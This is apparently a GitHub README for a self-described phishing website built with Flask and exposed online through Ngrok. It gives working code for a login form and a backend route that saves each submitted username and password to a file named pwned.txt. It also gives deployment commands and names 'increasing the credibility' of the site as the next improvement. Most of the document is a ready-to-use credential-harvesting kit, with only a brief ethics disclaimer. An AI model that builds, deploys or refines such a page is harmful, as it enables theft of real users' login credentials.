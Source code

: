 # Project: Phishing website using Flask and Ngrok

## Overview
This repository contains a Flask-based website that implements a simple login functionality. The website allows users to submit login credentials through a web interface and processes the data on the backend. The website is deployed online using Ngrok. This project serves as an example on how to gather user information through a malicious web page login form that saves user data into a local text file.

## Features
- **Frontend:** A simple HTML interface for user login.
- **Backend:** Flask website handling routing and processing login credentials.
- **Logging:** Captures and stores submitted login credentials in a local file (`pwned.txt`).
- **Deployment:** Uses Ngrok to expose the Flask website to the internet.

---

## Project Structure
```
project-directory/
├── static/          # CSS, JavaScript, and other static files
├── templates/       # HTML files (index.html, login.html)
├── server.py        # Main Flask website
├── pwned.txt        # File for logging submitted credentials
└── README.md        # Documentation
```

### File Details
- **`index.html`**: The main landing page for the website.
- **`login.html`**: Contains the login form where users can enter their credentials.
- **`server.py`**: Python script for:
  - Rendering the HTML pages.
  - Handling login form submissions.
  - Writing submitted credentials to `pwned.txt`.
- **`pwned.txt`**: Stores the username and password entries submitted by users.

---

## Setup and Installation

### Prerequisites
- Python (3.12 or above)
- Ngrok (to expose the Flask app online)

### Steps
1. Clone the repository:
   ```bash
   git clone https://github.com/elvishaveriku/Phishing_Website_Project.git
   cd phishing_website_project
   ```

2. Install the required Python packages:
   ```bash
   pip install flask
   ```

3. Run the Flask website:
   ```bash
   python server.py
   ```

4. Start Ngrok to expose the website:
   ```bash
   ngrok http 5000
   ```
   Copy the public URL generated by Ngrok.

6. Access the website in your browser using the Ngrok URL.

---

## Code Highlights

### Flask Routes
- **Index Route (`/`)**:
  Serves the `index.html` page.
  ```python
  @app.route('/')
  def index():
      return render_template('index.html')
  ```

- **Login Page (`/login.html`)**:
  Serves the `login.html` page.
  ```python
  @app.route('/login.html')
  def login():
      return render_template('login.html')
  ```

- **Login Submission (`/login`)**:
  Handles the login form submission and logs credentials.
  ```python
  @app.route('/login', methods=['POST'])
  def handle_login():
      username = request.form.get('username')
      password = request.form.get('password')

      with open('pwned.txt', 'a') as file:
          file.write(f"Username: {username}, Password: {password}\n")

      if username == 'admin' and password == 'password123':
          return jsonify({'message': 'Login successful!'}), 200
      else:
          return jsonify({'message': 'Invalid credentials.'}), 400
  ```
  
---

## Frontend Implementation

### HTML Structure
The frontend consists of two HTML pages: `index.html` and `login.html`. Both are located in the `templates/` directory.

#### `index.html`
A simple landing page with navigation links.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home Page</title>
</head>
<body>
    <header>
        <h1>Welcome to the Web App</h1>
    </header>
    <nav>
        <ul>
            <li><a href="/">Home</a></li>
            <li><a href="/login.html">Login</a></li>
        </ul>
    </nav>
</body>
</html>
```

#### `login.html`
A form for users to submit login credentials.
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login Page</title>
</head>
<body>
    <header>
        <h1>Login</h1>
    </header>
    <main>
        <form id="loginForm" action="/login" method="POST">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <button type="submit">Login</button>
        </form>
    </main>
</body>
</html>
```

---

## Ethical Considerations
Logging sensitive user information is for demonstration purposes only. Do not deploy such functionality in production without proper security measures, including encryption and user consent.

---

## Future Improvements
- Increasing the credibility of the website

---

## Author
[Elvis Haveriku] - Cybersecurity enthusiast and passionate about web technologies and Python programming.

